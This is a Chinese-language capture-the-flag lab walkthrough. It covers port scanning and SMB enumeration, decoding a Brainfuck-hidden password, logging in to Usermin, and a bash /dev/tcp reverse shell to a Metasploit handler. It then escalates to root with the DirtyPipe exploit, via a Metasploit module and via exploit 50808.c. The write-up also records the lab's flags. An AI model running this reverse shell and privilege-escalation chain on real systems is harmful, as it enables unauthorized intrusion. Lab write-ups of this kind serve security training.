


 以下為靶機基礎資訊
![[靶機資訊.png]]
資訊收集
===========================================================
![[nmap資訊.png]]
- 利用nmap對該ip進行掃描
- 發現靶機開有許多不同的port
- 靶機開放80,139,445,10000,20000這些port，其中139,445為smb
![[port 80.png]]
- 這是80 port的頁面
![[view source port 80.png]]
- 在80 port 的 view source 裡，在頁面的最下面發現一個加密資訊（如下）
--------------------------------------------------------------------------
don't worry no one will get here, it's safe to share with you my access. Its encrypted :) ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++. 
- ------------------------------------------------------------------------
![[port 10000.png]]
- 這是10000 port的頁面，它是webmin的登入portal
![[port 20000.png]]
- 這是20000 port的頁面，它是usermin的登入portal
![[enum4linux.png]]
- 由於靶機有開放smb服務，因此可以利用enum4linux取得資訊
- 透過enum4linux 172.20.10.3 -a 可以取得可登入的username（如圖）

解密
===========================================================
![[brainfuck.png]]
- 由於密文只有`+`、`-`、`<`、`>`、`[`、`]`、`.`、`,` 經查找他為brainfuck加密形式
- 利用brainfuck Decode取得密碼： **.2uqPEfj3D<P'a-3** 
- 可以從enum4linux上得知user裡面有個用戶叫**cyber**
- 嘗試用這組賬號密碼登入**webmin**和**usermin**
![[usermin login.png]]
- 這組賬密能夠成功登入**usermin**
![[usermin login-2.png]]

取得user flag
===========================================================
![[upload and downloads.png]]
- 在usermin這裡的applications 可以發現一個可以操作的地方（upload and download）
![[download flag.png]]
- 在這個頁面，可以在download from server裡下載檔案
- 一般flag會放在/home/user 目錄下
![[search flag.png]]
- 在這個目錄下有最有可能是flag的只有user.txt
- 將該檔案下載但主機上，並在主機端使用cat指令讀取改檔案
![[user flag.png]]
- 取得flag ***3mp!r3{You_Manage_To_Break_To_My_Secure_Access}***

提權
===========================================================
![[usermin-login.png]]
- 在usermin的login目錄能夠找到command shell
![[command-Check-version.png]]
- 利用uname -a 測試command shell 是否能夠使用
![[msfconsole.png]]
- 利用msfconsole 的*/multi/handler* 套件來監聽靶機
![[use4.png]]
- 查看這個套件需要的資訊
- 並填上必要的資訊
![[set options.png]]
 - 設定套件用來監聽的payload
![[exploit.png]]
- 設定完成以後，執行該套件，並等待靶機段輸入反向的bash
![[reverse shell.png]]
- 正在靶機端執行方向的bash，指令如下
- ***bash -i >& /dev/tcp/172.20.10.2/4444 0>&1***
![[儲存sessions.png]]
- 輸入background，是sessions在不斷開的情況下回到在msfconsole
- sessions -u 1，是將原本的reverse bash的sessions提升至meterpreter sessions
![[對sessions找弱點.png]]
- 在msfconsole裡面尋找可以用來exploit的script，指令如下
- ***use post/multi/recon/local_exploit_suggester***
- 並查看需要哪些必要資訊（sessions）
![[選擇弱點.png]]
- msfconsole會依據sessions來尋找相對應的可用插件
- 如圖，綠色為推薦可使用插件，紅色為不推薦可使用插件
![[選擇cve2022.png]]
- 使用推薦的插件，這裡使用dirtypipe
- 查看該插件的需要填的資訊
![[設定參數.png]]
- 執行後，能夠得到一個具有Root 權限的sessions（session 3）
![[解出Root session.png]]
![[選擇Root sessions.png]]
- 切換到Root的session
- ***-i***  是值 interactive
![[open shell.png]]
- 在這裡可以可以看到是Root的權限
- 執行***execute -f /bin/bash -i -H***
- ***-f*** 檔案 
- ***/bin/bash***  linux的terminal
- ***-H*** 隱藏
![[get flag .png]]
- 理由***cat***讀取***rOOt.txt***這個flag的檔案
- 取得flag ***3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}***

提權（方法二）
===========================================================

- 利用uname -a 查詢係統版本

- 利用searchsploit 尋找該版本對應的弱點提權腳本
- 其中50808.c就直接寫明它能夠提權

- 將50808.c直接上傳到server上

- 利用reverse bash反向連線

- 利用nc連接到伺服器
- 將50808.c製作出執行檔，但是伺服器並沒有gcc功能

- 在主機端製作執行檔並將它上傳

- 到/tmp 目錄上，執行shell執行檔，但是權限不足
- 利用chmod提升執行權限

- 執行後，利用***python3 -c 'import pty; pty.spawn("/bin/bash")'*** 升級至互動式的shell
- 升級後，就能得知自己是root
